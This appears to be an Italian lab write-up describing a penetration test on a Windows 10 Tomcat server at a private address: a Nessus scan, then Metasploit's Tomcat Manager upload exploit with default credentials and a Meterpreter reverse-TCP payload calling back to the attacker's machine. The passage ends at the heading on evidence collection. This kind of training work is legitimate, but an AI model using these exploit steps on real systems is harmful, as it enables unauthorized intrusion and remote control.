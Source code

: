 ### 🛠️ Passaggi Eseguiti

#### 1. Preparazione dei Servizi su Windows 10

- Accedere alla macchina target Windows 10 (`192.168.13.151`).
- Aprire Gestione Servizi (`services.msc`).
- Avviare il servizio Apache Tomcat (se non è già attivo).
- Verificare che il servizio sia in ascolto sulla porta 8080.

#### 2. Scansione delle Vulnerabilità con Nessus

- **Avviare il servizio Nessus su Kali Linux**:
  ```bash
  sudo systemctl start nessusd
  ```
- **Accedere all'interfaccia Nessus tramite il browser**: `https://localhost:8834`.
- **Creare una nuova scansione**:
  - Tipo: Basic Network Scan.
  - Target: 192.168.13.151.
- **Avviare la scansione**:
  - Identificare le vulnerabilità relative al servizio Tomcat.

#### 3. Exploit con Metasploit

##### 3.1 Configurazione dell'Exploit

- **Avviare Metasploit su Kali Linux**:
  ```bash
  msfconsole
  ```
- **Cercare gli exploit disponibili per Tomcat**:
  ```bash
  search tomcat
  ```
- **Selezionare l'exploit Tomcat Manager Upload**:
  ```bash
  use exploit/multi/http/tomcat_mgr_upload
  ```
- **Configurare i parametri dell'exploit**:
  ```bash
  set RHOSTS 192.168.13.151
  set RPORT 8080
  set HttpUsername admin
  set HttpPassword password
  set payload java/meterpreter/reverse_tcp
  set LHOST 192.168.13.100
  set LPORT 7777
  ```
- **Lanciare l'exploit**:
  ```bash
  exploit
  ```

#### 4. Raccolta delle Evidenze sulla Macchina Compromessa
